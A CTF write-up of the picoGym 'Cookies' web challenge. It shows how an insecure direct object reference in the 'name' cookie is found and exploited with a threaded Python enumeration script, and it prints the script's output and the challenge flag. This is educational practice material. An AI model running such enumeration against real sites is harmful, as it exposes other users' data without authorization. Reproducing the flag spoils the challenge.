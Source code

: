 # Cookies

## Introduction

Welcome to my another writeup! In this picoGym [challenge](https://play.picoctf.org/practice/challenge/173?category=1&page=1), you'll learn: Exploiting IDOR (Insecure Direct Object Reference)! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Author: madStacks

Description

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

## Find the flag

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303170038.png)

**View source page:**
```html
<li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
[...]
<!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->
<form role="form" action="/search" method="post">
    <div class="row">
        <div class="form-group">
            <input type="text" name="name" id="name" class="form-control input-lg" placeholder="snickerdoodle">
        </div>
    </div>
    <div class="row">
        <div class="col-xs-12 col-sm-12 col-md-12">
            <input type="submit" class="btn btn-lg btn-success btn-block" value="Search">
        </div>
    </div>
</form>
[...]
```

In here, we see there's a "Home" link, which points to endpoint `/reset`.

Then, we see a HTML comment, which says green = success, blue = info, yellow = warning, red = danger.

After that, we see there's a form. When we clicked the "Search" button, **it'll send a POST request to `/search`, with parameter `name`.**

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303170452.png)

When we visit the web application first time, it'll redirect us to `/`, and **set a new cookie called `name`, with value `-1`.**

Let's try to search a cookie:

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303171710.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303171716.png)

"That doesn't appear to be a valid cookie."

Hmm... **What if I change the `name` cookie's value to `1`?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303171847.png)

**It's redirecting me to `/check`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303171902.png)

Which sounds like checking the `name` cookie exist?

**Now, what if I increment 1 in the `name` cookie's value?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoGym/Web-Exploitation/Cookies/images/Pasted%20image%2020230303171947.png)

It returns "oatmeal raisin" cookies.

Armed with above information, **it looks like the `name` cookie is vulnerable to IDOR (Insecure Direct Object Reference)**, which allows attackers to view other `name` object without authentication.

**That being said, let's write a simple Python script to enumerate all `name` cookies!**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
from bs4 import BeautifulSoup

class Requester:
    def __init__(self, URL):
        self.URL = URL

    def sendRequest(self, name):
        header = {
            'Cookie': f'name={name}'
        }

        requestResult = requests.get(self.URL, headers=header)
        soup = BeautifulSoup(requestResult.text, 'html.parser')
        cookieContent = soup.find(class_='jumbotron').get_text().strip()
        
        if 'That is a cookie!' in requestResult.text:
            print(f'[+] Found valid name: {name}, response: {cookieContent}')
        else:
            print(f'[+] Maybe invalid name?: {name}, response: {cookieContent}')

def main():
    URL = 'http://mercury.picoctf.net:21485/check'
    requester = Requester(URL)

    for name in range(50):
        print(f'[*] Trying: {name}', end='\r')
        thread = Thread(target=requester.sendRequest, args=(name,))
        thread.start()
        sleep(0.1)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/picoGym/Web-Exploitation)-[2023.03.03|17:42:17(HKT)]
└> python3 cookies_enumerate_name.py
[+] Found valid name: 0, response: I love snickerdoodle cookies!
[+] Found valid name: 1, response: I love chocolate chip cookies!
[+] Found valid name: 2, response: I love oatmeal raisin cookies!
[+] Found valid name: 3, response: I love gingersnap cookies!
[+] Found valid name: 4, response: I love shortbread cookies!
[+] Found valid name: 5, response: I love peanut butter cookies!
[+] Found valid name: 6, response: I love whoopie pie cookies!
[+] Found valid name: 7, response: I love sugar cookies!
[+] Found valid name: 8, response: I love molasses cookies!
[+] Found valid name: 9, response: I love kiss cookies!
[+] Found valid name: 10, response: I love biscotti cookies!
[+] Found valid name: 11, response: I love butter cookies!
[+] Found valid name: 12, response: I love spritz cookies!
[+] Found valid name: 13, response: I love snowball cookies!
[+] Found valid name: 14, response: I love drop cookies!
[+] Found valid name: 15, response: I love thumbprint cookies!
[+] Found valid name: 16, response: I love pinwheel cookies!
[+] Found valid name: 17, response: I love wafer cookies!
[+] Maybe invalid name?: 18, response: Flag: picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
[+] Found valid name: 19, response: I love macaroon cookies!
[+] Found valid name: 20, response: I love fortune cookies!
[+] Found valid name: 21, response: I love crinkle cookies!
[+] Found valid name: 22, response: I love icebox cookies!
[+] Found valid name: 23, response: I love gingerbread cookies!
[+] Found valid name: 24, response: I love tassie cookies!
[+] Found valid name: 25, response: I love lebkuchen cookies!
[+] Found valid name: 26, response: I love macaron cookies!
[+] Found valid name: 27, response: I love black and white cookies!
[+] Found valid name: 28, response: I love white chocolate macadamia cookies!
[+] Maybe invalid name?: 29, response: Welcome to my cookie search page. See how much I like different kinds of cookies!
```

**Nice! We found the flag in `name=18`!!**

- **Flag: `picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}`**

# What we've learned:

1. Exploiting IDOR (Insecure Direct Object Reference)